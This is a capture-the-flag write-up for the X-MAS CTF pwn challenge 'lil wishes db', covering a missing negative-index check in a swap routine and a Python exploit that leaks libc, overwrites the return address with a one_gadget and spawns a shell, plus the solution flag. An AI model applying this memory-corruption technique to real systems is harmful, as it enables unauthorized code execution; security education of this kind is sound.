 # lil wishes db [359]
SOLVED

I don't want a lot for Christmas!

RCE is all I need

I don't care about protections

Underneath the RSP

**Target**: nc challs.xmas.htsp.ro 2002

**Author**: Th3R4nd0m

**Files**: lil_wishes_db.zip

##### The library used in the solution code is [`pwnscripts`](https://github.com/152334H/pwnscripts)
## Inspection
```sh
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols          FORTIFY Fortified       Fortifiable     FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols         No    0               2               chall
```
The only thing good here is that FORTIFY is off.

The binary provides a 4 option CLI menu:
```
Choose:
1.Swap IDs
2.Print database
3.Insert ID
4.Exit
```
The loop for the menu is vaguely: 
```c
int print_db(__int64 *db) {
  for (int i = 0; i <= 7; ++i)
    printf("ID[%d] = %llu\n", i, db[i]);
}
int swapIDs(unsigned __int16 id1, unsigned __int16 id2, __int64 *s) {
  __int64 tmp = s[id1];
  s[id1] = s[id2];
  s[id2] = tmp;
}
int main() {
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  __int64 db[9]; // [rsp+20h] [rbp-50h] this is the "database"
  memset(db, 0, 0x40uLL);
  int keep_running = 1;
  puts("Wishes database\n");
  while (keep_running) {
    puts("Choose:\n1.Swap IDs\n2.Print database\n3.Insert ID\n4.Exit\n\nOption: ");
    int opt, ind1, ind2;
    scanf("%d", &opt);
    puts(&nul);
    switch (opt) {
    case 2:
      print_db(db);
      break;
    case 3:
      unsigned index;
      puts("Index: ");
      scanf("%d", &index);
      if ( index <= 7 ) { // unsigned --> unbugged
        puts("Value: ");
        scanf("%llu", &db[index]);
      } else puts("Index should not be > 8");
      break;
    case 4:
      keep_running = 0;
      break;
    case 1:
      puts("Index 1:");
      scanf("%d", &ind1);
      puts("Index 2:");
      scanf("%d", &ind2);
      if ( ind1 <= 7 && ind2 <= 7 ) // lack of ind >= 0 check!
        swapIDs((unsigned __int16)ind1, (unsigned __int16)ind2, db); //unsigned index overflow!
      break;
    default:
      puts("Please choose one of the above");
    }
    puts(&nul);
  }
  puts("Merry Christmas!");
  return 0LL;
}
```
Option 1 is **bugged** with the ability to swap with any index within the range of a `uint16_t`. The exploit framework for this is rather simple:
0. use the swap bug to get a libc address in `db[0:8]`, then leak it with option 2.
1. Write a rop chain to `db[0:8]` with option 3.
2. Use the swap bug to shift it over to the return pointer & thereafter
3. exit & let ROP work out.

## Exploiting

We'll start by mapping out all of the options as python functions:
```python
from pwnscripts import *
context.binary = 'chall'
context.libc_database = 'libc-database'
context.libc = 'libc.so.6'
r = remote('challs.xmas.htsp.ro', 2002)
def opt(v): r.sendlineafter('Option: \n', str(v))
def swap(id1, id2):
    opt(1)
    r.sendlineafter('Index 1:\n', str(id1))
    r.sendlineafter('Index 2:\n', str(id2))
def printIDs():
    opt(2)
    r.recvline()
    return [int(r.recvline().strip().split(b'= ')[-1]) for i in range(8)]
def insert(ID, v):
    opt(3)
    r.sendlineafter('Index: \n', str(ID))
    r.sendlineafter('Value: \n', str(v))
def rexit(): opt(4)
```
To leak libc, we'll grab the value of `__libc_start_main_ret` (libc-db symbol) from the return pointer of the function frame:
```python
def negID(v): return u32(p16(v)+b'\x00\xf0', sign=True) # cheap way to exploit swap()
rtr_ind = 0x58//8   # db[] is at rbp-0x50.
swap(0,negID(rtr_ind))
context.libc.calc_base('__libc_start_main_ret', printIDs()[0])
```
Then, we'll just return to a `one_gadget`, which is particularly easy in this case (the requirement, `[rsp-0x40]==NULL`, is pre-fulfilled):
```python
insert(0,context.libc.select_gadget(1))
swap(0, negID(rtr_ind))
rexit()
r.interactive()
```
I tried making a ROP chain for `system(libc_binsh_str)` as a more sensible method of exploiting the binary, but kept getting errors (`SIGSEGV` with `rax == 0x10000001`) during execution. Not entirely sure why.

In any case, the `one_gadget` worked fine:
```python
Merry Christmas!
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x5e bytes:
    b'bin\n'
    b'boot\n'
    b'dev\n'
    b'etc\n'
    b'home\n'
...
```
## Flag
`X-MAS{oh_nooo_y0u_ru1ned_the_xmas}`
